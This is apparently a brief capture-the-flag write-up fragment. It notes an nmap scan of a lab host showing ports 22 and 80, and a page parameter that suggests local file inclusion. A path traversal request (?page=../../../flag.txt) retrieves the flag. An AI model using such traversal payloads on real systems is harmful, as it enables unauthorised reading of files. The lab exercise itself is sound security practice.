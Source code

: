 nmap shows 2 ports open, p22 and p80
http://10.10.83.22/?page=relax.php hints in LFI/Path Traversal
http://10.10.83.22/?page=../../../flag.txt gives the flag
